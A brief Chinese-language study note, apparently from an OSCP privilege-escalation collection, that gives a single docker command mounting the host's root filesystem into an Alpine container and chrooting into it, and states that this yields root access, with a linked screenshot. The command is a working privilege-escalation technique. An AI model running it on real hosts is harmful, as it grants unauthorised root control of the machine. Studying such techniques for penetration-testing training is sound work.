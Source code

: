 直接运行命令：

```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```
即可获取 root 权限

![docker](https://github.com/Nongcloud/oscp-Learn/tree/master/Privilege-Escalation/SUID/images/suid-docker.png)
